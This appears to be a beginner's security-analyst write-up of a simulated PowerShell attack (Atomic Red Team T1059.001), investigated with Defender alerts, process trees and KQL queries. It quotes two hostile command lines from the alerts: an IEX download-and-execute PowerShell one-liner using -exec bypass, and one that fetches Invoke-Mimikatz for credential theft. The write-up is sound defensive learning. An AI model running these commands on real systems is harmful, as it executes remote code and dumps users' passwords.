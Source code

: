 # PowerShell Attack Investigation – T1059.001

I wanted to share how I approached this investigation, the steps I took, my thought process and what I learned throughout the analysis.

I picked T1059.001 PowerShell Technique because powershell is mainly used by IT so seeing it run under a normal user like Jenny looks suspicious and is a good place for a beginner to start hunting.

Lets Go.

## 5 Prepared Questions

Before I looked at the alerts I had already prepared five questions that I wanted to start my investigation:

1. What connects these alerts?
2. Which alert came first?
3. What actually ran?
4. Who did it?
5. What happened next?

## The Process Tree – My Findings

This part was a bit confusing at first because as shown in the screenshot, it looks like [pid 14920] powershell.exe launched [pid 8540] cmd.exe. But after checking the timestamps, I realised that [pid 14920] powershell.exe belonged to an earlier user session. The real chain of events was that [pid 8540] cmd.exe created [pid 12236] powershell.exe, which then used DownloadString with IEX (Invoke-Expression) to pull a script from GitHub and run it directly as PowerShell code. This confirmed that the root cause was an interactive PowerShell session started by Jenny’s remote login, not an automated task or background service. That was the point where the attack really began.

[View Process Tree](Process-Tree.PNG)



## The Process Tree – What I Learnt

Looking at the process tree, I realised it shows activity that started before the actual attack time. That is because it includes the parent processes, helping you see exactly how the suspicious one was launched. In this case, PowerShell was started interactively under Jenny’s session, not by a background service. Seeing explorer.exe as the parent process confirmed it came from user activity rather than persistence or an automatic startup.

I also found it helpful that the process tree highlights Remote Execution for the chain userinit.exe > explorer.exe > powershell.exe, showing the action took place within an RDP session.

I also noticed that Defender had blocked and resolved several related threats that never appeared on the alert summary although they were displayed in the Process Tree and Incidents. So because Defender stopped the threats before they were executed, it marked them as resolved, which means they no longer required further action and therefore did not show up in the Alerts summary for triage.

## The Alert Timeline – My Findings

### Alert 1: Suspicious PowerShell Command Line

At first I just saw a long PowerShell command but then I realised why Defender flagged it. It had some red flags like IEX (Invoke-Expression), the DownloadString which pulls the GitHub code from the internet and the -exec bypass flag.

Here’s the command Defender caught:

```text
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.ps1',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```

The remote session came from 192.168.1.72, logged in as AzureAD\JennySmith.

[View Alert Timeline – Suspicious PowerShell Command Line](Alert-Timeline-Suspicious-Powershell-Command-Line.PNG)


### Alert 2: Suspicious Process Executed PowerShell Command

The details in this alert looked almost identical to the first one however they both tell different things.  
Alert 1 is that Defender noticed a suspicious command.  
Alert 2 confirms that the suspicious command was actually executed.

### Alert 3: Mimikatz Credential Theft Tool

The previous alerts led up to this big one which was the main goal of the attacker. Defender confirmed the suspicious command tried to run the Mimikatz tool, which is known for stealing passwords from memory. The command showed PowerShell trying to download and run the script from GitHub. Defender caught it straight away and marked it as Trojan:PowerShell/Mimikatz.A, blocking it before it could dump any credentials.

The command looked like this:

```text
C:\Windows\System32\cmd.exe /c powershell.exe IEX (New-Object Net.WebClient).DownloadString(...Invoke-Mimikatz.ps1)
```

[View Alert – Mimikatz Credential Theft Tool](Alert-Mimikatz-Credential-Theft-Tool.PNG)



## Advanced Hunting – KQL

So far the Process Tree and Timeline have shown the story that started with a suspicious PowerShell command, then the process actually ran during Jenny’s RDP session, and finally it tried to execute Mimikatz to steal credentials but Defender stopped it. However I was keen to investigate the endpoints further and validate the alerts.

I have listed the following 4 KQL queries here : [View KQL Queries](../KQL/KQL-Queries.kql)



### KQL Query 1 – Confirm PowerShell Execution

The KQL query on DeviceProcessEvents confirmed that at 16:05 BST, Jenny’s VM executed powershell.exe from cmd.exe using the IEX and DownloadString to pull a script from GitHub. This aligns exactly with the Defender alerts for suspicious PowerShell activity and validates that the T1059.001 attack produced real telemetry.

[View KQL Query Results – Confirm PowerShell Execution](../KQL/KQL-Query-Confirm-Poweshell-Execution.PNG)


At this point, I already had all the answers I needed as far as the simulated attack goes. However I wanted to dig deeper and practise using KQL as if this was a real investigation.

### KQL Query 2 – Look For Mimikatz

This was really interesting! I hunted for the string Invoke-Mimikatz and I got **No Results!** How is this possible when we have already confirmed the attacker’s DownloadString contained Invoke-Mimikatz?

It’s because the malicious code was blocked and never actually ran so there are no logs for it. This is very important to know that Defender Alerts are based on detection and the endpoint telemetry is not the same!

### KQL Query 3 – Look For Spread of the PowerShell Activity

The results showed that only one device ran the suspicious PowerShell command. This was expected because I had only onboarded one endpoint to Defender. I just wanted to practise building the KQL queries.

[View KQL Query Results – Confirm PowerShell Execution](../KQL/KQL-Spread-Powershell-Activity.PNG)

### KQL Query 4 – Look For Persistence

My persistence query came back with no results is because the Atomic Red Team simulation (T1059.001) was only designed to test PowerShell execution, not persistence. It launched a suspicious PowerShell command that Defender detected and blocked straight away, so it never went on to create any scheduled tasks or user accounts.

## Final Note

I really enjoyed this investigation and found it a great way to put what I have been learning into practice. I tried to make the most of the challenge by treating it like a real attack instead of a simulation so that I could go further. I am developing my analyst skills through the MyDFIR Skool by Steven Mah.
